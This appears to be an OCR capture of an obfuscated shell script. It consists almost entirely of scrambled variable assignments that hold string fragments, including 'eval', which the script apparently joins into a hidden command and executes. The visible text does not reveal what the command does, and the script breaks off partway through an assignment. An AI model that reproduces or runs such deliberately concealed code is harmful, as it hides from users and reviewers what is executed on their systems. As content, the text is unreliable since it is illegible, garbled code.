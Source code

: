 z="
";mRz=''\''z$i';HOGz='$OJC';nUBz='bLBz';rPz='z'\'';v';ywz='en'\''\';JoCz='I'\'';T';MdFz='$EfB';Aqz='iBCz';HlFz='$dpB';Awz='='\''I'\''';mMGz='cVCz';WcFz='$Fiz';loDz='Ynz=';qmCz='oXz=';nXz='Crz=';bFBz=';XTC';ZSCz=';uCz';EsDz='$R'\''\';gDCz='Rkz=';qUCz='UZz=';DKz=''\'';UN';OgCz=';XMz';CbFz='$XcB';ZxFz='sHCz';jECz=''\'';Ei';rCCz='z$fn';vaCz=';ONz';qiFz='z$dC';XTFz='z$MT';cZz='WQz$';EKGz='z$eT';gxEz='$Yvz';TMFz='yKBz';nmDz=';qwB';uSCz=''\'';sx';MuCz=';Wxz';bCEz='Ez$Q';yuDz=';GE'\''';lGBz=''\''upz';MEFz='Kz$q';XmCz='Doz=';WQz=''\'';y'\''';CKDz='E'\'';K';Gaz='$Kf'\''';EMCz=''\'';cF';cNFz='z$JM';yNz='nhBz';ZfCz=''\''HGz';jMGz='YVCz';imBz='NWBz';kHz='Rz'\'';';wuCz='z$Hb';cGDz='Gz$f';Umz=''\'';XZ';FZz='$bU'\''';jHEz='Jz$X';NLBz='bjBz';JLGz='$UKC';QJDz=';'\'';r';WsBz=';VrB';iKFz='$FJB';CGFz='$CEB';GFEz='tGz$';lwCz='eaz=';RADz='J'\'';C';diCz='$vY'\''';YIEz='IKz$';mjFz='$JBz';AgCz='TP'\'';';uKFz='$WJB';Rez='$v'\'';';sKEz='Mz$w';hjCz=';EPB';vwFz='wGCz';rLBz='='\''u'\''';HsCz='kfz=';KEDz='p'\'';V';STDz=';mgz';IEz=''\''qDz';cWFz='xvz$';uvBz=''\''z$x';Soz=''\'';Te';NLFz='$sJB';egEz='gz$K';gADz='o'\'';C';jtEz='$orz';RVFz='gVBz';vkDz=''\'''\''IG';xBBz='NB'\'';';CTFz='z$sS';eBDz=';UEz';YkCz=''\'';wb';npCz=';muB';sTGz='$xcC';CCBz=''\'';QQ';PaCz=''\'';IJ';AOGz='pWCz';mVEz='PWz$';MVBz=''\''dK'\''';peBz='$'\'';d';LbDz='$TI'\''';gKDz='nVz'\''';pHBz='R'\'';Q';jLBz=';cyB';FQFz='$TPB';HqFz='$FxB';htEz='$uDz';sZBz='ZPz'\''';nRGz='$VaC';jOFz='$Qcz';PJDz='='\''m ';GUEz='Uz$n';AyEz='z$nv';ogDz='Mz$W';xSFz='$nSB';PKCz='z$tQ';ntFz='z$SD';QjBz=';gaz';anFz='$DtB';RLz=''\'';NU';ZtDz=''\'';sa';yZz=';YTz';pbz=''\'''\''a'\''';urCz=''\''$aP';UZCz=''\''$IK';eiz='AECz';WXBz='$nQ'\''';CYFz='z$CZ';BJz='X'\'';Y';dZEz='nZz$';mhBz=''\'';Fm';eLz='z$Ud';wIDz='c'\'';w';XhFz='z$bk';wNFz='kMBz';gWEz='$GXz';hdEz='dz$q';WOEz='z$oP';nMCz='='\''gz';sNz=''\''dBz';gVFz='$yVB';LsFz='$xAC';KPz='z='\''O';uSBz=';MXB';qBz='az='\''';PcBz='AEz=';NJCz=''\'';vl';QVDz=''\'';at';jqz=';XFz';SqBz=';CNB';yQBz='='\''Ps';QTEz='Iz$A';XlBz=';tXC';RJBz=''\''dXz';uECz=''\'';Xo';AsFz='hACz';XTDz=''\''_c'\''';KMGz='OVCz';rNEz='JPz$';YGFz='z$dE';KtEz='z$Tr';sEBz='='\''eE';nsDz=';Y'\'';';EDBz='B'\'';O';XWBz=';eUz';fEEz='QGz$';UsBz='QKz'\''';WgCz='Dz$T';ojFz='bnBz';yYDz='z$ns';urEz='Jqz$';UjBz='$lRz';MCGz='$qLC';ghFz='lkBz';iiCz='dIz=';BDFz='$ZAB';EAEz='z$qB';VqFz='dxBz';rxCz='t_l'\''';ibz='hSz=';xJz='F'\'';t';QZCz=''\''vLz';udCz='per'\''';qwCz='GeBz';mvBz=';kR'\''';tJFz='Kz$S';nGBz='MOCz';TvEz='Xtz$';EBz=''\''Xgz';NDBz=';eXC';yWCz=';sJB';Jz='z='\''z';xUDz='z$ZZ';qWCz=''\'';kB';FTz=''\''Gz$';yaFz='z$Uc';aVBz='='\''$D';trDz='UYBz';qECz=';gPB';oFDz=''\'';rw';Xwz='$Qo'\''';PVz=''\''IF'\''';JfCz='xRz$';FiEz='hz$O';jmDz='q'\'';Q';mlBz='eVz=';rkz='$x'\'';';RTGz='$GcC';diFz='vlBz';SnEz='Emz$';vKEz='z$TM';haBz=';NRC';BlDz=''\'';YO';VnDz='QLz$';XADz='h'\'';s';PVDz=''\'';Oe';QjCz=''\'';Bf';rREz='z$pS';avz=';ILC';vKCz='jhBz';uGz='z='\''.';GoFz='$BuB';dcCz=';XI'\''';SrFz='$tyB';evBz=';MVz';QBCz='='\''nU';tnz=';DqB';wrz='='\''DJ';Ybz='MBz=';hOz='z='\''t';eRFz='$MRB';noz='neBz';pbEz='kbz$';TGDz='EaCz';ipCz=';hIC';AfDz='z$Ol';kwDz='xHCz';Tlz='AD'\'';';iuCz=''\'';Tg';HuEz='sz$J';iDBz='haBz';YEBz='MQCz';PiCz=';TIB';emBz=''\'';dj';aNEz='$tOz';kJFz='$HIB';gRBz=''\'';TE';MQCz=';ISC';XtFz='vCCz';Wlz='XCz=';WbDz=''\'';ng';fCGz='$NLC';pdBz=';gxz';DQz='uBBz';Knz='z='\''h';AYCz='e['\'';';KSBz=''\'';fa';ncCz=';VB'\''';EUFz='$yTB';wsDz='z$Ss';xuFz='$AFC';EXz='z'\'';N';XwEz='az$V';HDEz='$AFz';dLFz='$tFz';IhCz=''\'';YN';iCDz='pFCz';fEDz='\'\'''\''R';ImBz='mVz=';GPGz='$WLC';tSz='$w'\'';';uwEz='uz$t';xsEz='z$Gr';xiBz='Vo'\'';';SMFz='Oz$N';PvBz='C'\'';y';wXBz=''\'';Wc';hAEz='$VCz';ICEz='Dz$t';EBBz='z$xm';gJz=';THB';kbz=''\'';wt';hbz='pm'\'';';jgz='='\''Cl';rIDz='bg'\'';';flEz='hkz$';VyBz=''\'''\''$O';ndDz='l'\'';n';KPGz='$RUC';gOBz='V'\'';v';hoEz='Inz$';fz=''\'';'\'';';DFEz='rGz$';fSEz='$aTz';SIBz='laCz';BMFz='hKBz';ZKDz='yuz=';YWFz='lFz$';AgFz='$hiB';HnBz=''\'';nU';cez=''\'';XH';oiBz='vSCz';DWFz='hWBz';GPDz=''\'''\'' -';thEz='Whz$';WlDz=';msz';kvFz='$FGC';cpDz=''\'';aW';HmBz='oX'\'';';uCEz='$kEz';Iiz='$tY'\''';OPCz=';'\'';Z';tABz='='\'';J';ReEz='$Iez';Skz='='\''G'\''';hyEz='$Swz';ZCCz='SC'\'';';nqEz='thz$';rZFz='$EbB';yNBz='DCz=';sZFz='z$Fb';xNCz=';n'\'';';xJDz='gm'\'';';UcDz=''\'';SB';bfBz=''\'';ep';SAGz='$PJC';FtBz=';yez';PoEz='z$rm';ElCz=''\'';Vo';MqCz='a'\'';A';hdCz=''\''S'\'';';TUDz='$Bl'\''';goBz=''\'';xU';xZFz='$LbB';Jrz='k'\'';c';Ltz='Bcz=';YNGz='$fNC';vZCz='CIz=';ELDz='IHz=';JiFz='z$al';qbCz='jE'\'';';YWDz='$rC'\''';EaCz='e'\'';B';PMGz='kFCz';CcDz=''\'';NA';wDGz='z$BN';qLz=';PRz';RaCz='z$Ct';MYDz='aSz=';mGz='h'\''\'\''';DlDz=''\'';iX';eqDz=';mOC';fEBz='BSCz';kIz=''\'';jC';Ixz='UGz=';hJEz='OLz$';TTCz='UFz'\''';nhDz='='\''IY';vPCz='Dz$z';sHz=''\'';vk';DjDz='nqz=';yOEz='Qz$M';ssBz='tZCz';oIGz='z$wR';ZAFz='z$Ex';idEz='Hz$e';FXCz=';uoz';uLCz='HRz=';kuCz=''\'';En';xLEz='VNz$';gMEz='Oz$C';ayz=''\''pu'\''';iiEz='iz$W';LVCz=';dSB';KmBz=''\'';Za';Kcz=''\'';Eh';RxFz='z$oH';NLDz=''\'';QC';hRz='LBz'\''';Ttz=';FJz';tEGz='$oNC';XFCz='z$NZ';TZEz='z$cG';edDz=';uBC';OsCz=''\'';OD';imFz='$rrB';ieCz='SbBz';wSFz='$mSB';yKz='FBz=';Koz=''\''s_t';oDGz='pMCz';tJCz='z$tV';Iyz='$'\'';v';EHFz='JFBz';bdEz='Xdz$';WvBz='='\''$N';cjz='.j'\''\';dbz='tX'\'';';PNCz='PQCz';EuCz='JNz$';VFCz=''\''$HK';ILz='tEz=';lDGz='$iMC';ELBz='xSz'\''';qUEz='Vz$n';EABz=';XKB';LVEz='sVz$';PpDz=';nKz';GJBz=''\'''\''iE';SZz='LFz'\''';vGDz=';Kfz';dnEz='mz$i';LCFz='$iyz';daFz='ybBz';YHBz=';DTz';HCDz='Qtz=';KHBz='oHz'\''';JHDz='Csz=';PtBz=';DeB';EGz=''\''XSz';yGFz='FBz$';rFz='z'\'';k';jyBz='z$yj';DVCz=''\'';dx';gEz=''\'';x'\''';OOFz='z$GN';DQBz='f'\'';w';yHDz=''\'';TF';bSCz='KX'\'';';JJGz='ZSCz';cBGz='z$YL';DBGz='nKCz';NWEz='mWz$';Wwz=';YWC';WgBz='z$Ig';vwDz='Bz$u';MAGz='$ZJC';wRGz='$bQC';wIGz='$ISC';goEz='Hnz$';YpDz=''\'';LX';BbBz=';eSC';WuEz='z$cs';IyFz='$OIC';CJEz='$oHz';niEz='iz$a';iIEz='Kz$l';twBz=';fM'\''';MOEz='$cPz';RuDz=''\'' s'\''';txDz='Rz$S';cCGz='$JLC';oRFz='ZRBz';cEDz=''\'';Ak';MhCz='/Ro'\''';cMFz='$ILB';tNFz='$hMB';BmCz='aJz=';tUEz='Vz$l';PQBz=''\''Kz'\''';tJGz='$STC';BRGz='$jZC';jsEz='tqz$';bwCz=''\'';ln';Wjz=';vcB';GuDz='s'\'';G';lLDz=''\'';fJ';oUEz='Vz$Y';ahDz='sJz=';EDCz='z$lE';qSz='qY'\'';';SMBz='OVBz';KpDz=''\'';tb';uUz=''\'';YQ';QLCz='$pt'\''';dtFz='$DDC';pFGz='sOCz';LtBz=''\'';PH';dJGz='z$sH';aiBz='pH'\'';';JLEz='$jMz';ysz='A'\'';w';LKEz='z$mL';bAGz='z$qJ';uNFz='z$iM';oBDz=''\'';bS';eDGz='$eMC';hLGz='rUCz';IMCz=''\''/f'\''';ooFz='BvBz';PeEz='$Gez';WRFz='$yQB';eOGz='FXCz';ykEz='Gkz$';bdCz=';uUC';fJBz=''\'';jN';REDz='nNz=';WuFz='$IEC';sEFz='z$ql';yKFz='bJBz';hyFz='rICz';oWCz='='\''aG';wNz='z='\''g';ABFz='$cxz';TsCz=';TxB';hHBz='nJCz';Otz=';kbz';owEz='muz$';DDFz='Bz$b';FgDz=';PGz';wiDz='QXz=';jlEz='Mz$k';nXEz='Yz$E';eCz=''\'''\'';B';rDFz='z$TB';ivz=''\''z$k';awEz='uz$G';FiFz='z$Sl';lEz=';jh'\''';MuBz=''\'';wD';KtCz='x'\'';i';ckEz='$mjz';wkEz='$Ekz';tSFz='$ESB';eWz=''\'';CC';OWFz='Gz$s';fKCz='$uG'\''';HTDz='$Im'\''';SREz='z$WS';WGBz='kTz=';jhDz='REz=';pGDz=';dSz';uKEz='Mz$I';CMFz='$iKB';IBCz=';YZz';wFDz='z$GR';jlz=''\''bOz';htFz='EDCz';ioz='G'\'';H';sz=''\'';ji';pFCz='Lz$g';gOEz='$wPz';NmFz='JrBz';DPCz='GbCz';Miz='='\''$g';hKDz=';GUz';kSEz='$dTz';CSFz='z$lR';ckBz=';Fbz';dIBz=''\'';mR';HmFz='$yqB';DNEz='$VOz';jZFz='z$ua';SSDz='TQz$';rhCz=''\'';Ph';mDDz='vB'\'';';PyFz='VICz';VTGz='$IYC';pGBz='Noz=';mSCz='tprt';wZBz=''\''$jF';lLCz='Bi'\'';';peFz='Cz$J';lsEz='qz$I';AdEz='dz$B';VJDz='='\''sa';enCz='$WM'\''';oMGz='z$NN';TACz='$SKz';VZz=';ZcB';JLBz='p'\'';X';uOEz='$JQz';OwCz='ee'\''\';oYz=';Dmz';QBGz='$HLC';aKz='sGz'\''';uXFz='z$jx';Mcz='0'\''\'\''';QFEz='Hz$F';ppEz='oz$U';KOz='nIz$';pNEz='HPz$';CZCz='z$tm';kDBz='C'\'';u';naCz=';FXz';MvDz='wuBz';oHEz='Jz$q';etFz='Cz$F';uLGz='z$RL';VYz=''\'';An';eTBz=''\'';YC';pIBz=''\'';sZ';eSBz=''\'';XT';eGz='z'\'';I';euBz='='\''fq';TIDz='$Fb'\''';LRCz=';LrB';jiFz='$ImB';fAEz='$SCz';yMEz='$ROz';VMFz='z$BL';xqBz=';KNB';mtCz='fh'\'';';Nez='='\''VW';eOFz='$YNB';GhCz=';YFz';DNGz='$wFC';rQGz='XZCz';RQCz=''\'''\''$H';dBCz='z$ht';FDCz=''\'';RQ';sQCz='OyBz';VRGz='z$aZ';UCDz=';jJB';cbDz=';hBC';WkDz='V'\'';E';Dxz=';kaz';MwDz=';HGB';VpCz='WIz$';jLz='z='\''r';mgDz=''\''COz';ldz=''\'';Be';vpEz='$NRz';HZz='$te'\''';NpEz='$pnz';JxEz='z$Gv';EiFz='$RlB';iEDz='LKCz';UpCz=''\'';FL';WSCz='wPBz';BSCz=';GNB';FJz='z$e'\''';xEz=''\'';R'\''';WTCz='llBz';VIz='AuBz';iqEz='Fpz$';wUEz='Vz$f';cnDz=''\'';fi';NNGz='wVCz';ivCz=''\'';WA';enEz='z$Om';aLCz='JFz=';UcCz=';HUB';mcBz=';eh'\''';JFFz='$sCB';VbEz='z$Tb';ceDz='IbBz';fmEz='Xlz$';HLz='Bz'\'';';uCDz=';ogz';hQCz=''\''XHz';RfEz='Cfz$';wHGz='fQCz';PRBz=';psz';SnDz=';tuz';BLBz=''\'';XD';LXFz='$HYB';qez=''\''REz';EUEz='Uz$k';fMz=''\''kHz';wez='qEz'\''';Hiz=';CHC';PRz='='\''$k';iYCz='yt/'\''';bPDz='$mn'\''';hBDz='gl'\'';';EQBz=''\''z$X';QVEz='Vz$w';qXEz='Yz$J';dhEz='Sz$F';buBz='SSCz';YEGz='xMCz';ADz='='\'';q';ZoDz='lKz=';dOEz='z$tP';iSDz='$Ze'\''';tiDz=''\'';ou';oaz=';joz';NDz='Ez$'\''';KUCz=';EFz';SjDz=''\'';Sf';wtEz='$Asz';iCEz='$XEz';cQFz='z$yP';rbz='='\''BG';KIFz='$WGB';gpz='cMz'\''';DJCz=';eez';llz=';Kt'\''';sWCz=''\'';EW';GQGz='$TYC';IgDz=''\'';yT';hEEz='Gz$b';dfBz=''\'';qG';bXBz='tH'\'';';HUz=''\'';Fa';PYz=';oFB';rnFz='$foB';aRGz='$FaC';TLFz='z$hx';WTEz='Uz$d';exBz='  '\'';';Nrz=';KvB';kBFz='z$Jy';vZDz=';Vnz';Scz='='\''FO';Qtz='d'\'';p';vaBz='jfBz';qGCz='ta'\'';';nuCz='z$Rb';tDBz=''\'';be';QgCz='='\''PA';QVBz=';QNB';DmFz='z$oq';qJBz='ck'\''\';UPGz='$iLC';XNz=';UcB';frCz=''\'';wN';rRDz=';tIB';iCBz='ata'\''';eLFz='$JKB';vaFz='$vgz';gfDz=''\'';wv';ESDz=';maz';VMBz=';ckz';mECz='I'\'';o';xrz='CWCz';GEEz='tFz$';cOEz='z$sP';NqEz='oz$l';esBz='  \'\''';bkEz='$ljz';urDz='";ng';HHBz='C'\'';k';PtDz='='\''HD';KOGz='$kVC';XFBz=';jz=';HZDz='Nwz=';wVEz='z$XW';tlDz=''\'';kw';wAGz='z$LJ';PPEz='Qz$T';rqDz=''\''Zrz';JMGz='$LVC';jYz=''\'';Df';XwDz='SLCz';olBz='z$NX';FvDz=';JOB';SVCz='upz=';YDCz='C'\'';F';HiEz='hz$h';RRCz=''\'''\''eB';MSz=';cJ'\''';xADz=';bIz';hYz=''\'';CI';MBFz='$mxz';epBz='d'\'';U';VDDz='='\''ZD';dIFz='Duz$';kvDz=';bl'\''';GvCz=';QaB';kQDz=';JKC';HjFz='z$im';SVDz='z$VN';kxz='Y'\'';j';lhBz='z$Cf';MYCz='rG'\'';';iqBz=''\'';ID';aVz=''\'';Bx';OZFz='$XaB';JGGz='$wOC';XWFz='yuz$';WCBz=';ZK'\''';cADz='qB'\'';';QkBz=''\'';dA';DEFz='iBBz';wMGz='sMCz';uVFz='WWBz';lgBz=''\'';lw';SPDz=''\'';XI';djCz=''\'';te';lJDz='z$CD';faDz=';cE'\''';IAEz='z$vB';tGBz=';WmB';WKFz='rIBz';mMFz='ULBz';ITBz='NG'\''\';BTCz=';IwB';XpBz='Mmz=';AGFz='EBz$';uaz=''\'';NJ';OqDz=''\''$G'\''';NwFz='$mGC';NlBz=''\'';sE';sODz=''\'';sn';EqDz=';UZC';lRFz='$XRB';Yhz=';WZz';OXFz='$MYB';PCEz='Ez$D';MdEz='z$Md';XxCz=''\'';bJ';LRz='$C'\'';';sPz=''\'';xI';bSFz='$PSB';uaDz='$'\'';e';fgFz='z$Yj';aSEz='$WTz';YJEz='$fDz';TpEz='$vnz';vFBz='z$Cl';oQGz='TZCz';qFBz=''\'';'\''\';vQz='z$yc';stDz=''\'';Xz';aABz=''\'''\''VH';iGDz='UH'\'';';EIEz='$EEz';hSFz='$WSB';VxEz='z$Er';fkz='z$A'\''';xlDz=''\'';gi';qnCz=';bhB';oQz='='\''J'\''';gRz=';IqB';lqEz='Ipz$';oVz='$ak'\''';iBGz='bJCz';XJEz='$GLz';bkFz='foBz';InEz='lz$u';RyCz=';vJB';hxDz='eval';SHz=''\'';tS';IFGz='DOCz';siFz='$SmB';GkCz=''\''iJ'\''';ejFz='z$Nn';Oyz='ON'\'';';CdEz='dz$D';WUDz='V'\'';Y';pNBz=''\'';gq';ndFz='hfBz';jBEz='$WDz';JlBz=''\''E'\'';';TqCz='HHz=';tVEz='z$VW';mSDz='$wY'\''';AmEz='$xkz';gXz='$tC'\''';SkEz='Dz$a';WkFz='$UoB';eNCz='ccBz';nkz=''\'';vY';fHCz=''\'''\''of';kFFz='$KMz';xUFz='z$EV';HdEz='dz$p';udEz='$odz';jMDz='dp'\'';';fPGz='$uKC';JgDz='Hpz=';NeFz='$LgB';tFz=''\'''\''='\''';ctFz='z$BD';DfDz='uez=';tbDz=''\'''\''bu';yLCz='z$YG';vQCz=';Fiz';PwFz='tGCz';HOFz='yMBz';lnEz='Vmz$';juDz='Ql'\'';';jAGz='z$FK';hiEz='iz$H';ciFz='z$Th';KxEz='z$Na';UnCz=''\''FHz';axBz=''\'';Fd';uWEz='RXz$';nhCz='c'\'';e';TtFz='$VhB';hMEz='Oz$G';RiEz='Cz$o';uHCz=';XXC';TMGz='z$VJ';STBz='rd'\'';';YFBz=''\''c'\''\';ChCz='IsBz';TIBz='ds'\'';';qVz='='\'';j';unBz='z='\''q';SXFz='$tGB';ByEz='$ovz';jJBz='='\''vd';aHFz='$mFB';bsBz='D'\'';P';iBBz=''\''gbz';wNGz='z$jW';xJEz='z$BH';ZRz='KKz'\''';dKz='d'\'';f';iEFz='SCBz';TPDz=';th'\''';VfEz='Ffz$';njDz='\'\'';c';nCFz='z$JA';reEz='$gez';Xiz='PV'\'';';GlFz='cpBz';fPEz='z$rQ';cFGz='z$bO';ipBz='$Vg'\''';vgFz='ujBz';YKGz='z$yT';SUBz='YGCz';lXFz='$lYB';Yyz='bCz=';YPDz=';HlB';jjFz='$WnB';bqCz=''\'';vc';aFz='$eSz';JUz='wpz=';BIBz='u'\'';V';AqFz='$swB';BQBz=''\''tKz';kWFz='$LDz';vbBz='z'\'';u';OCEz='Ez$C';vECz='Luz'\''';RtFz='z$Vj';RsEz='z$OU';IODz='Nz$D';BaFz='$PbB';AiEz='Iz$D';WSFz='z$IS';XYEz='$kYz';FqCz='Xp'\'';';vJDz=''\'';dn'
